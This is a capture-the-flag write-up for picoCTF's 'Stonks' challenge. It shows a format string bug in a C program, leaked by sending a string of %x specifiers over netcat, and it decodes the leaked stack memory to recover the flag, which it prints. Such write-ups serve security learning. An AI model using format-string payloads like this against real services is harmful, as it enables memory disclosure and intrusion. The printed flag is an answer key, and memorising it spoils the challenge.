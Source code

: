 # Stonks

## Overview

* Points: 20
* Category: Binary Exploitation
* Author: Madstacks

## Description
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/17ba7f9351aca192c45833c658742fe5/vuln.c) `nc mercury.picoctf.net 27912`

## Hints

1. Okay, maybe I'd believe you if you find my API key.

## Approach

1. By looking at the code in the .c file, we can see that the printf calls on line 92-93 arent't properly done, opening a string format vulnerability. You can also verify this by trying to execute `nc mercury.picoctf.net 27912`, then input 1 to start buying stonks and then input %p or %x. The program will reply with hexadecimal characters.
2. Use this exploit a long series of %x to get a long string of hexadecimal characters. You can run this shortcut script to get a fast result `echo 1; python -c "print('%x'*30)") | nc mercury.picoctf.net 27912`.
You should get this output: ![First result](.img/Screen1.png)
3. Copy the result and convert it to an ASCII string. You can use an online tool to easily convert it, such as CyberChef. The result should look like this
```
.å=..°..H.?~ÈØ.ÿÿÿñ.ã..~Ö..~ÈÜp.ä...å;..SÐocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿÖ.}÷ð:ø÷íd@g....÷Ö[é
```
Clean the result by removing the initial and final characters, they are in excess:

```
ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿÖ.}
```
4. Due to endiannes, every block of 4 characters looks swapped, so we have to revert it.
You can use CyberChef this time too to get a faster result:
![Second result](.img/Screen2.png)
5. Remove the last 3 characters and there is the flag!

## Flag

<details>
<summary>Click to view the flag</summary>

__picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}__
</details>